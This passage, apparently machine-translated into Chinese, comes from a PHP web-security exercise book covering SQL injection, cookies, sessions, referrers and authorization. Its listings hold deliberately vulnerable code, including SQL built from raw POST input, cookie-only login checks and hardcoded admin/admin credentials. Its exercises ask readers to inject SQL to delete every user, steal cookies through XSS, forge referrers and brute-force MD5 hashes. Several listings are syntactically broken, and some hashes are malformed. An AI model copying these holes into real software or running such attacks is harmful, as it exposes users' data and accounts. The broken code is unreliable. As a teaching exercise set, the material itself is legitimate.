<td><input type="password" name="pass" value="<?php echo $_POST['pass']; ?>"></td>
</tr>
<tr><td>&nbsp;</td><td><input type="submit" value='Remove' /></</td>></tr>
</form>
</table>
```

```php
<?php
// 建立与数据库的连接
require_once("config.php");

if(!empty($_POST)) {
    // 移除用户名
    // 如果系统中的名称和密码匹配则删除
    $query = "DELETE FROM userslist
             WHERE pass = '" . $_POST['pass'] . "' AND
             name = '" . $_POST['name'] . "'";
    if(mysql_query($query)) {
        echo "User " . $_POST['name'] . " has been successfully deleted<br>";
    }
}

echo "List of users:<br>";
$query = "SELECT * FROM userslist
          ORDER BY name";
$usr = mysql_query($query);
if(!$usr) exit("Error - " . mysql_error() . "");
while($usr = mysql_fetch_array($usr)) {
    echo $usr['name']."<br>";
}
?>
```

此小型 Web 应用程序的界面如图 I.4.5 所示。使用列表 I.4.5 中的脚本，从系统中删除所有用户。注意，要成功甚至不需要知道任何用户密码。

# 第 I.4 章：MySQL 与 SQL 注入 37



## I.4.6. 页面导航

列表 I.4.6 展示了一个包含两个表的数据库：

- `catalogs` — 计算机备件的目录表（图 I.4.6）
- `products` — 计算机备件表（图 I.4.7）

列表 I.4.6. `catalogs` 和 `products` 表

```sql
CREATE TABLE catalogs (
  id_catalog int(11) NOT NULL auto_increment,
  name tinytext NOT NULL,
  PRIMARY KEY (id_catalog),
  FULLTEXT name (name)
);
CREATE TABLE products (
  id_product int(11) NOT NULL auto_increment,
  name tinytext NOT NULL,
  price decimal(7,2) default '0.00',
  count int(11) default '0',
  mark float(4,1) NOT NULL default '0.0',
  description text,
  id_catalog int(11) NOT NULL default '0',
  PRIMARY KEY (id_product),
  KEY id_catalog (id_catalog),
  FULLTEXT KEY (name,description)
);
```



图 I.4.6. 目录列表


图 I.4.7. 备件列表

`catalogs` 表用于存储目录。它包含两个字段：

- `id_catalog` — 主键，自增
- `name` — 名称

`products` 表用于存储备件信息。它包含七个字段：

- `id_product` — 主键，自增
- `name` — 名称
- `price` — 价格
- `count` — 数量
- `mark` — 标记
- `description` — 描述
- `id_catalog` — 外键到 `catalogs`

## I.4.7. 字母导航

`catalogs` 表允许按名称显示目录列表（图 I.4.8）。



图 I.4.8. 目录列表

## 第一部分：谜题

数据库中的项目列表（图 I.4.9）。



图 I.4.9. 项目列表

## I.4.12. 在数据库中保存图像

在在上一个任务中，建议你将 MP3 文件保存到数据库中。现在有一项更重要的存储任务——在数据库中保存图像。与之前的脚本不同，有必要对图像的存储进行组织，例如每页显示三张图像，而不是指向它们的链接（图 I.4.13）。图像不应保存存在服务器的临时文件中。相反，它必须直接从数据库传输到客户端。



图 I.4.13. 从数据库下载图像

## I.4.13. 从数据库转储文件中下载数据

在将数据从一台服务器移动到另一台服务器时，通常会使用所谓的数据库转储（database dumps）。数据库转储是包含顺序 SQL 指令的文本文件，执行这些指令后，可以让你在每个 SQL 服务器上重建数据库（列表 I.4.7）。

> 注意：在列表 I.4.7 中所示转储文件可以在随附光盘的 `/scripts/4/catalog.sql` 文件中找到。

## 列表 I.4.7. 数据库转储

```
CREATE TABLE catalogs (\
id_catalog int(11) NOT NULL auto_increment,
name tinytext NOT NULL,
PRIMARY KEY (id_catalog),
FULLTEXT KEY name (name)
);
INSERT INTO catalogs VALUES (1, 'Processors');
INSERT INTO catalogs VALUES (2, 'Motherboards');
INSERT INTO catalogs VALUES (3, 'Video adapters');
INSERT INTO catalogs VALUES (4, 'Hard disks');
INSERT INTO catalogs VALUES (5, 'RAM');
```

PHP 语言的 MySQL 应用程序接口包含了 `mysql_query()` 函数，它允许你只执行一个查询。编写一个脚本，以确保从数据库转储文件中执行多个 SQL 查询。

## 第 1.5 章：会话（Sessions）与 Cookie（Cookies）


构成 Web 基础的 HTTP 不是一种面向会话的协议。这意味着 Web 服务器无法确定客户端之前是否访问过服务器或访问过特定页面。网站上的任何图像或内容都可以在不下载其他图像或内容的情况下被下载。因此，如果用户已被授权访问一个页面，他或她必须被授权访问另一个页面。为了实现这一点，用户必须再次提供密码。这种情况对于大型应用程序来说是不方便的。因此，引入了 cookies 和 sessions。

Cookies 是存储在客户端计算机上的小型文本文件。当用户尝试访问安装了该 cookie 的服务器时，客户端浏览器会发送一个 HTTP 请求头，根据该请求头，服务器确定它之前安装过该 cookie。Cookie 文件存储变量名以及 Cookie 的有效期。这个有效期可能从几秒到几年不等。会话 Cookie（session cookie）存储在浏览器的内存中，而不是客户端的硬盘。

会话（Sessions）也是小型文本文件；但它们存储在服务器上。只有唯一的 SID 被发送给客户端。因此，数据永远不会离开服务器，服务器仅与客户端交换 SID。SID 的有效性受浏览器运行时间或服务器设置的。

## 第一部分：谜题

会话和 Cookie 在构建 Web 应用中起着重要作用。它们经常被用作攻击的目标，也被用作防御攻击的工具。

## I.5.1. 在线用户

在许多 Web 应用中（如聊天、论坛和电子商务网站），有必要跟踪当前活跃的用户以及他们离开网站的时间。这种技术对于控制网站的受保护区域也可能有用。例如，如果只有两个用户可以访问受保护区域，但你注意到第三个用户在场，这将允许你防止渗透，或至少将后果降至最低。

假设用户授权已在网站上实现，并且用户名注册在名为 `$_SESSION['user']` 的超全局数组中。如果用户不是授权用户，系统将显示“Anonymous”（匿名）而不是用户名。

## I.5.2. 自定义会话机制

实现一种自定义会话机制，根据该机制，用户名将存储在 MySQL 数据库而不是文件中。


为了解决这个问题，使用 `session_set_save_handler()` 函数是非常方便的，它允许你注册自定义的会话处理函数。

## I.5.3. 使用会话保护 HTML 表单

假设在 `index.php` 文件中有一个 HTML 授权表单。该文件的代码如列表 I.5.1。

- I.5.1. 授权系统组成部分的 HTML 表单代码

```html
<table>
<form action=handler.php>
```

## 第 I.5 章：会话与 Cookie

```html
<form action=handler.php method="post">
<tr>
<td>用户名：</td>
<td><input type="text" name="name"></td>
</tr>
<tr>
<td>密码：</td>
<td><input type="password" name="pass"></td>
</tr>
<tr>
&nbsp;</td>
<td><input type="submit" value="登录"></td>
</tr>
</form>
</table>
```

如列表 I.5.1 所示，`handler.php` 接收数据。会话通过这种在 `handler.php` 中处理。

## 列表 I.5.2. handler.php

```php
<?php
session_start();
if ($_POST['name'] == 'admin' && $_POST['pass'] == 'admin') {
    $_SESSION['user'] = 'admin';
    echo "登录成功";
} else {
    echo "登录失败";
}
?>
```

## I.5.4. 客户端上的 Cookie 状态

用户经常在浏览器中禁用 Cookie。为了让 Web 应用正常工作，必须在客户端上启用 Cookie。

## I.5.5. 伪造 Cookie

假设有一个启用 Cookie 的脚本。通过该脚本，将 Cookie 设置为管理员，然后是编辑，最后是用户。

## 列表 I.5.3. 使用 Cookie

```php
<?php
setcookie("user", "admin", time() + 3600);
if (isset($_COOKIE['user'])) {
    echo "欢迎，" . $_COOKIE['user'];
}
?>
```

列表 I.5.3 所示的脚本可以在随附光盘的 `/scripts/5/5.php` 中找到。


## I.5.6. 绕过会话保护的 HTML 表单

在 I.5.3 节中，你需要开发一个受会话保护的 HTML 表单，防止被自动填充。这种保护只能通过使用一个接收服务器 Cookie 并将其发送服务器的脚本来绕过。换句话之，这种脚本模拟了浏览器的操作。现在，创建一个实现这种行为的脚本。

## I.5.7. 跨站脚本

在 I.3.20 节中，建议你开发一个用户认证系统，将注册用户的信息记录在名为 `text.txt` 的文件中（列表 I.5.4）。该文件中的每行都对应一个用户，并按以下格式出现：

```
用户名::密码::邮箱::URL
```

用户名、密码、邮箱地址和主页之间用双号（`::`）隔开。

`text.txt` 文件和注册新用户的脚本 (`1.php`) 可以在光盘上的 `/scripts/5/5.7` 目录下找到。

### 列表 I.5.4. text.txt 文件

```
igor::1234::igor@mail.ru::http://www.softtime.ru
cheops::dwert::cheops@mail.ru::http://www.softtime.ru
wet::gordon:::
```

要输出用户列表，请使用列表 I.5.5 所示脚本。

列表 I.5.5 所示脚本可以在附带光盘中的 `/scripts/5/5.7/2.php` 文件找到。

注意

### 列表 I.5.5. 输出用户列表的脚本

```php
<?php
// 数据文件名
$filename = "text.txt";
// 检查传递的名称
// 是否之前已经注册过
$arr = file($filename);
foreach($arr as $line) {
// 使用 :: 分隔符分割字符串
$data = explode(":
```

## I.5 章：会话与 Cookie

列表 I.5.5 所示脚本的操作结果如图 I.5.1 所示。

**图 I.5.1.** 用户注册信息的输出

使用列表 I.5.5 所示的脚本，将输出重定向到 `http://www.softtime.ru`。然后修正此脚本以移除漏洞。

> 根据此任务的描述，可以注册任意数量的新用户。

## I.5.8. 窃取 Cookie

使用列表 I.5.5 所示的脚本，编写允许你从用户处窃取 Cookie 的代码。

## I.6 章：代理（User Agents）与引用者（Referrers）

根据 `USER_AGENT` 代理，每个访问服务器的客户端都可以此确定客户端机器安装了哪种操作系统以及使用的是哪种浏览器。通常，还可以判断该客户端是人类还是机器人。

此外，通过引用者（referrer），可以发现用户是从哪里重定向到你的网站的。如果是来自搜索引擎，你将能够确定搜索系统用户输入的关键词。引用者允许你跟踪访问从外部链接到你网站的导航动态，以及他们在该网站各个页面之间的导航。

然而，代理和引用者都可以被轻易伪造。因此，你不能盲目地依赖它们。记住，它们可以被客户端随时进行伪造。

### I.6.1. 追踪来自外部网站的跳转

编写一个脚本，该脚本在使用 `include` 包含在网站页面后，将记录所有来自其他网站的跳转并将其放入 MySQL 数据库。

在设计供内部使用的网站保护区域时，必须特别小心，并确保此类区域不包含任何指向外部网站的引用（对于内部论坛尤其如此，那里存在放置一些外部网站链接的诱惑）。

### I.6.2. 使用引用者保护 HTML 表单

假设有一个用于用户授权的 HTML 表单。该表单包含在 `index.php` 文件中，其代码如列表 I.6.1。

#### 列表 I.6.1. 授权系统的 HTML 表单

```html
<table>
<form action=handler.php method=post>
<tr>
<td>Name:</td>
<td><input type="text" name="name"></td>
</tr>
<tr>
<td>Password:</td>
<td><input type="password" name="pass"></td>
</tr>
<tr>
<td>&nbsp;</td>
<td><input type="submit" value='Enter'></td>
</tr>
</form>
</table>
```

如列表 I.6.1 所示，HTML 表单将数据传递给存储在 `handler.php` 文件中的处理程序（handler）。为了简单起见，授权系统将检查用户名和密码是否等于 `admin` 字符串。如果是的话，系统将使用 `mail()` 函数发送邮件通知（列表 I.6.2）。

#### 列表 I.6.2. 存储在 handler.php 文件中的表单处理程序

```php
<?php
if($_POST['name'] == 'admin' && $_POST['pass'] == 'admin') {
echo "<br><br>The message has been sent<br><br>";
@mail("admin@somewhere.ru", "Statistics", "Message body");
?>
```

入侵者将列表 I.6.1 所示的 HTML 表单放置在自己的网站或本地主机上，那么该用户将能够多次访问它，猜测密码，使用服务，甚至为该网站的访问者从另一个网站提供服务。此外，可以使用 sockets 自动化访问 HTML 表单处理程序的过程。使用引用者保护 HTML 表单处理程序，使其在所在地以外的地方都无法使用该服务。

### I.6.3. 伪造引用者

在上一节中，主要任务是使用引用者保护 HTML 表单不使其在第三方网站上被填充。现在，尝试通过篡改引用者来绕过这种保护。

### I.6.4. 搜索引擎关键词

编写一个脚本，它不仅记录来自搜索系统的访问者，还分析地址并检索访问者在搜索引擎目录中定位该网站时使用的关键词。只有搜索短语必须保存到 MySQL 数据库。

### I.6.5. 检查搜索引擎机器人的访问

编写脚本，记录当搜索引擎机器人（Yandex、Rambler、Google 和 Aport）访问网站页面时。

### I.6.6. 防止下载管理器

通常有必要保护网站内容免受下载管理器下载。这是因为当使用下载管理器下载网站内容时，广告不会被查看（而网站资源主要依靠广告生存）。网站的排名也不会增加，因为各种机器人和下载管理器的访问不被视为有效点击。对于免费托管来说这是一个严重的问题，所有者必须观察查看的广告与其产生的流量之间保持某种比例。

动态生成的内容使情况进一步恶化，其中资源地址显示如下：`http://site.ru?id=01,02`。因此，无法下载整个网站。

在本节中你需要解决的问题：确保无法使用下载管理器下载内容。

### I.6.7. 伪造代理（User Agents）

当 PHP 脚本伪装成普通用户访问网站页面时，编写一个脚本以下载特定页面。

## I.7 章：授权与验证

授权和验证在构建 Web 应用时起着重要作用。这是因为每个需要区分访问者的网站都必须使用密码授权访问者。许多用户可以使用相同的 IP 地址连接互联网。因此，为了区分访问者，必须诉诸授权。聊天室或论坛的用户账户价值并不等同于提供私有面板访问的用户账户价值。通常，用户授权是在网站的保护区域进行的，那里通过安全套接层（SSL）协议传输 HTTP 流量，确保数据加密并消除密码监听（记住 HTTP 不加密）。无论是否使用 SSL，粗略实现授权代码都可能导致破解。

> 本章的所有示例可以在随书光盘中的 `/scripts/7` 目录找到。

验证验证用户身份；换句话说，此程序检查用户是否如其所称。授权程序检查特定用户是否有权执行特定操作。如果 Web 应用没有实现多级访问控制系统，这些概念是匹配的。因此，在本章的后续内容中将只使用“授权”一词。

### I.7.1. 基于文件的授权

1.3.20 节描述的问题要求你创建一个用户注册系统，数据将以以下格式存储在文件中：

```
用户名:密码:邮箱::url
```

用户名、密码、电子邮件和主页地址之间用双冒号（:`:`）分隔。使用自定义脚本或来自 1.3.20 节问题答案的现成脚本（位于随书光盘中的 `/scripts/3/3.20` 目录），开发授权系统（图 7.1）。

图 I.7.1. 授权系统的 HTML 表单

图 I.7.2. 编辑用户数据

如果用户提供的登录名和密码存在于 `text.txt` 文件中，脚本必须允许用户编辑电子邮件地址和主页地址（URL），以及重置密码（图 I.7.2）。

### I.7.2. 密码加密

在 I.3.20 和 I.7.1 节中，你必须基于文本文件创建一个身份验证系统。然而，在这种情况下，入侵者可以指定文本文件的路径，从而获取所有注册用户的密码（图 I.7.3）。

图 I.7.3. 每个人都可以获取密码信息

因此，有必要保护密码。即使入侵者获取了 `text.txt` 文件，也无法使用这些信息（I. 7.4）。

### I.7.3. 猜密码

在上一节中，你已经学习了如何使用不可逆加密来保护数据。然而，这并不能让攻击密码变得不可能。毕竟，密码是可以被猜到的。列表 I.7.1 包含了四个使用 MD5 算法加密的密码。请使用暴力攻击解密这些密码。

> 这些密码可以在随附 CD-ROM 的 `/scripts/7/password` 文件中以电子形式找到。

#### 列表 I.7.1. 加密密码

```
ee11cbb19052e4b07aac0c60ca060232ee
dd97813dd40be87559aaefed642c3fbb
8dbc672497bdc46f88e864bb1121232c
3e10f8c80924d3a0f94c18e7addb866
```

> 列表 I.7.1 中的密码仅包含小写拉丁字母，且密码长度不超过四个字符。

### I.7.4. 密码的字典攻击

如果你仔细考虑了上一个任务并完成了它，你会发现即使是猜最短的密码也需要花费大量时间。然而，用户很少设置毫无意义的密码。密码通常是一个单词，有时会用几个数字进行填充。这为字典攻击提供了丰富的可能性。一个选择良好的字典可以让人们在合理时间内发现密码。请使用 Linux 操作系统的标准字典来猜列表 7.1 中显示的哈希值对应的密码。该字典可以在 `/usr/share/dict/linux.words` 文件中找到。

注意 如果你在 Windows 下运行脚本，可以在随附 CD-ROM 的 `/scripts/7.4/linux.words` 文件中找到该字典。

### I.7.5. 密码生成器

之前的两个任务清楚地说明了短而有意义的密码可以被快速地猜到。解决这种情况的办法是限制密码长度。注册系统可以要求用户提供不少于六位且包含字母和数字的密码。然而，最有效的保护是自动生成更长且安全的密码。开发一个这样的 Web 应用（图 I.7.5）。

图 I.7.5. 自动生成密码

### I.7.6. 防止在浏览器中查看文本文件

即使你使用了复杂的且经过加密的密码，将信息存储在可以通过浏览器查看的文件中也是一个安全漏洞。入侵者可以研究文件结构，了解你网站的内部组织，并出于自己的目的。例如，可以使用电子邮件地址来组织列表。使用 `.htaccess` 文件保护特定目录下的所有文本文件不被浏览器窗口查看（图 I.7.6）。

图 I.7.6. 防止在浏览器访问文本文件

### I.7.7. 基于 Cookie 的授权

在 I.4 节中，建议创建一个注册系统。对于考虑的系统，开发了一个使用 Cookie 的授权系统。该授权系统的代码见列表 I.7.2。

列表 I.7.2 中的脚本可以在随附 CD-ROM 的 `/scripts/7/` 中找到。

> 注意 列表 I.7.2. 使用 Cookie 授权

```php
<?php
// 表单处理器
if(!empty($_POST))
{
  // 连接数据库
  require_once("config.php");
  // 防止 SQL 注入
  if (!get_magic_quotes())
  {
    $_POST['name'] = mysql_escape_string($_POST['name']);
    // 密码
    $_POST['password'] = mysql_escape_string($_POST['password']);
    // 执行查询
    $query = "SELECT COUNT(*) FROM users WHERE name = '$_POST['name']}' AND pass = '$_POST['password']'";
    $usr = mysql_query($query);
    // 获取记录数
    $Total = mysql_result($usr, 0);
    if($Total > 0)
    {
      // 授权成功
      // 设置 24 小时有效的 cookie
      setcookie("user", urlencode($_POST['name']), time() + 3600*24);
      // 重载数据
      echo "<HTML><HEAD>
      <META HTTP-EQUIV='Refresh' CONTENT='0; URL=$_SERVER['PHP_SELF']'>
      </HEAD></HTML>";
    }
  }
}
else {
  // 自动重定向到授权页面
  echo "<HTML><HEAD>
  <META HTTP-EQUIV='Refresh' CONTENT='0; URL=1.php'>
  </HEAD></HTML>";
}
?>
```

```php
<form method=post>
Name: <input type=text name=name value='<?php $_COOKIE['user']; ?>'><br>
Password: <input type=password name=password value=''><br>
<input type=submit value=Send>
</form>
```

授权成功后，系统会欢迎用户并提供系统的内部信息，检查在列表 I.7.3 中进行。

#### 列表 I.7.3. 检查用户是否已授权

```php
<?php
// 如果访客已进入，欢迎他
if(isset($_COOKIE['user']))
{
    echo "访问您的私密数据";
}
else {
  // 自动重定向到授权页面
  echo "<HTML><HEAD>
  <META HTTP-EQUIV='Refresh' CONTENT='0; URL=1.php'>
  </HEAD></HTML>";
}
?>
```

如何绕过列表 I.7.2 和 I.7.3 显示的授权系统？你会如何保护授权系统以使其无法绕过？

### I.7.8. 保护用户名

即使没有发现用户密码或绕过授权系统获取用户账户权限，也可能通过伪造姓名来损害现有用户的声誉。伪造姓名是将英文字母替换为外观相似的其他国家字母字符，或反之。例如，假设用户名由英文字母组成。在这种情况下，只需注册相同的名称但将英文字母替换为另一种语言的等效字符（例如西尔字母），并代表该用户执行恶意活动（如洪水或垃圾邮件）。这种伪造可能会让网站管理员感到紧张，如果他们没有注意到伪造，将导致他们担心并寻找不存在的安全漏洞。开发一个检查用户注册并消除伪造用户名可能性的算法。

### I.7.9. 基于会话的授权

Cookies 非常方便，Web 开发者可以轻松指定它们的寿命。然而，它们很容易伪造，并且可以在浏览器设置中禁用。因此，大多数 Web 开发者使用基于会话的授权。这种授权系统提供了更高的安全性，因为数据不会离开服务器，客户端机器仅通过与服务器交换信息

SID 通过 GET 方法（作为命令行参数）或会话 cookie 传递。

在第 I.4.1 节中，建议你开发一个用户注册系统。基于 session 的用户授权系统代码如列表 I.7.4 所示

#### 列表 I.7.4. 基于 session 的授权系统


```php
<?php
// 初始化 session
session_start();
?>
<form method=post>
Name: <input type=text name='name' value='<?php $_SESSION['name']; ?>'><br>
Password: <input type=password name='password' value='<?php $_SESSION['password']; ?>'><br>
<input type=submit value=Submit>
</form>
<?php
// 表单处理程序
if (empty($_POST['name']) && empty($_POST['password'])) {

    // 建立数据库连接
    require_once("config.php");
    // 为了防止 SQL 注入，使用
    // mysql_escape_string 函数处理
    // 获取的登录名和密码；
    if (!get_magic_quotes($gpc)) {

        $_POST['name'] = mysql_escape_string($_POST['name']);
        $_POST['password'] = mysql_escape_string($_POST['password']);
    }
    // 执行查询返回
    // 符合登录名和密码的记录数
    $query = "SELECT COUNT(*) FROM userslist\n    WHERE name = '$_POST[name]' AND password = '$_POST[password]'";
    $usr = mysql_query($query);
    if (!$usr) exit("授权块错误");
    // 获取记录数 *
$total = mysql_result($usr, 0);
}
// 如果记录数大于零，
// 将用户数据存入 session
if($total > 0)
{
  $_SESSION['name'] = $_POST['name'];
  $_SESSION['password'] = $_POST['password'];
  // 如果用户已登录，欢迎他/她
if(isset($_SESSION['name']))
{
  // 建立与数据库的连接
  require_once("config.php");
  // 输出问候
  echo "Hello, "._$_SESSION['name']."<br>";
  echo "Access to your confidential data<br>";
  // 输出用户数据
}
$query = "SELECT * FROM userslist WHERE name = '$_SESSION[name]'";
$usr = mysql_query($query);
if(!$$usr) exit(mysql_error());
$user = mysql_fetch_array($usr);
echo "Your email: "._$user['email']."<br>";
echo "Your URL: "._$user['url']."<br>";
}
```

如何可能绕过列表 I.7.4 所示的授权系统？是否存在一种保护该授权系统的方法使其无法被绕过？

### I.7.10. 对数据库存储密码进行加密

使用 MySQL 数据库管理系统开发用户注册和授权系统，并对存储在数据库中的密码进行不可逆加密。这可以确保在系统发现某些 SQL 注入漏洞时，密码不会被直接查看。入侵者将不得不进行额外的密码攻击。这种攻击可能需要大量时间，在此期间密码可能会被更改。

### I.7.11. 基础 HTTP 授权

基于第 II.7.10 节开发的注册系统所获取的用户信息数据库，创建一个使用 HTTP 基础授权的用户授权系统（图 I.7.7）。



图 I.7.7 基础 HTTP 授权

## 第 I.8 章：从其他网站获取信息


在网站上公开的信息可能是为了其他网站专门准备的，无需任何额外处理。这意味着信息可以从一个网站下载并在另一个窗口中作为 HTML 页面显示。这种专门准备的信息通常以可扩展标记语言（XML）文件的形式提供。RSS 摘要格式在互联网上非常流行，用于发布新闻、列表和类似的信息。你应该知道如何准备 RSS 文件并使用标准方法读取 XML 文件。当 XML 文件的语法偏离标准或文件过大无法通过 PHP 脚本处理时，后者是必要的。这种信息通常以 XML 页面形式提供，服务器上通常分配了 16 MB。如果你打算在自己的网站上使用其他网站的信息，必须获得所有者的许可。网络关系对浏览器查看网站内容没有限制；你不需要使用 Internet Explorer 或 Opera 等经典浏览器，但可以使用 PHP 脚本。因此，你有权以任何方式操作其他网站的内容：将它们保存到本地等。

## 第 I.8 章：从其他网站获取信息

然而，你不能在没有所有者许可的情况下在自己的网站上使用获取的信息，例如通过替换广告来吸引访问者。注意：本章的所有示例可以在附带 CD-ROM 的 `/scripts/` 目录中找到。

### I.8.1. 下载 HTML 页面

将 `http://www.php.net` 的 HTML 页面下载到本地保存为 `.txt` 文件。

### I.8.2. 从 Yahoo 链接

当使用 Yahoo 系统搜索单词“PHP”时，生成以下 URL：

```
http://search.yahoo.com/search?p=PHP&sm=Yahoo&fr=tab-web&t=1&ie=UTF-8
```

加载该 URL 页面，并如图 I.8.1 所示从结果中提取所有 URL。同样，提取返回项目的标题并如图 I.8.2 所示创建超链接列表。



图 I.8.1 从 Yahoo 搜索提取的 URL

### I.8.3. 从 Google 链接



图 I.8.2 搜索项目列表

当使用 Google 系统搜索单词“MySQL”时，生成以下 URL：

```
http://www.google.com/search?hl=en&q=MySQL&btnG=Google-Search
```



图 I.8.3 从 Google 搜索提取的 URL

### I.8.4. 从 MSN 链接

